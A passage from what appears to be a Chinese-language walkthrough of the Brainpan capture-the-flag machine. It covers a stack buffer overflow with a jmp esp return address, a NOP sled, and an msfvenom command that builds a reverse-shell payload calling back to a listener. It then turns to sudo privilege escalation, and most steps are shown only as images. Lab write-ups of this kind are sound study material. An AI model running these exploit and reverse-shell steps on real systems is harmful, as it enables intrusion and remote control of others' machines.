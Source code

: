 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tYOdJjjJaibb397ONVcF1qjKq4B8rlZ36pRe2j2clicR9chVVXA4vkXvQ/640?wx_fmt=png)

重新运行...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tNO483fvicf4eBbSiaZhc1Pox4wJK4RROCJ3SBVZ9QCaavGb87mkgibygA/640?wx_fmt=png)

仔细查看了序列，看不到任何丢失的字符，可以使用所有字符（\ x00 为空字节除外）

需要跳转到堆栈，就需要找到指令 “jmp esp” 的地址...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tchvQ1yKfDsdYdWxXqZukcQ5gPia3uZg6CIFeQLJgX2JmSsApzq3mEog/640?wx_fmt=png)

```
311712F3...
```

将它添加到我的 Python 脚本中，以替换写入 EIP 的 4 个 “b” 字符（反转需使用小端序格式：\ xF3 \ x12 \ x17 \ x31）

使用 msfvenom 创建我的反向 shell 有效负载...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tCjK4JsiaXa6ZWFrDNjRCMfGLQHE8yFkkEV9bP3Vf7BMNBc5EOS4PkcQ/640?wx_fmt=png)

```
msfvenom -p linux/x86/shell_reverse_tcp -b "\x00" LHOST=192.168.182.149 LPORT=443 -f python
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tiayTZK6hzRwUausPyZlK0mrxWHax97PgQ6G0r2Uwvhbr4u4JMKAP4sQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tKkYSADb5awYHqTo2mcdKaCn4W1WE5tfd3JOj4gO7ScjdVP33EtSQgw/640?wx_fmt=png)

python 中添加了一点小字节的反向 jmp esp 地址，16 个 nops（\ x90），然后是实际的 shellcode...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tZnDzwaMhfU5ZiczGibr3WqNPYnTmPNdhzXta4YrPABucaTFMdQUhDYqg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8twD1tWWoIWtmm9dAHAVsIibiaZo2lvDESmWiaibQReVm3WyicE2FKP3CiabGw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8ttVW3zgRcszCsuahln80h88hP3fMSQyONcnz2LUPZapr0raKgGAPXzA/640?wx_fmt=png)

首先在本地测试漏洞，方法是用 wine 启动 brainpan.exe，然后启动服务，看到连接已建立！！

该漏洞利用程序是在靶机上工作的（192.168.182.152），继续测试...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tmR0lfYrVptiabULclu7J8CicCqofRIyKm8LhopZrLcOtfERmXRdfxskw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8teiadr48jHkGy9sU6gPEFsmOdbz9tdU9gOvOKWPFCtfDwrX0gLzbE1KQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8t9PXeHYDAfl0clzS37YibaNyYJlzjiaWs0a2qeY2TmXX3L8GKpfFvwOXg/640?wx_fmt=png)

成功通过缓冲区提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNwnUmBaY4LoFYXdRA9gx8tZ3zXPJOtI64WGpY5o52NN9xXicAUibnlzB2070YNq8cvtSejjxw0G39Q/640?wx_fmt=png)

直接 sudo 提权，发现 / home/anansi/bin/anansi_util...

继续 sudo 目录试试...
